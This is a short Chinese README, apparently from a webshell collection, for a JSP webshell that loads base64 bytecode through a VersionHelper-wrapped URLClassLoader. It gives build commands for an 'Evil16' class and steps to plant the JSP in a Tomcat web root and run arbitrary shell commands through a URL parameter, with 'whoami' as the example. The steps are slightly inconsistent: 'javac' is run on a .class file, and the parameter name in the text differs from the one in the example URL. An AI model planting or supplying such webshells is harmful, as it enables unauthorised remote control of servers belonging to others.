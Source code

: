 ### VersionHelper包装的URLClassLoader类加载器的JSP Webshell

生成字节码：
```
javac Evil16.class
java Evil16
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问16.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/16.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```
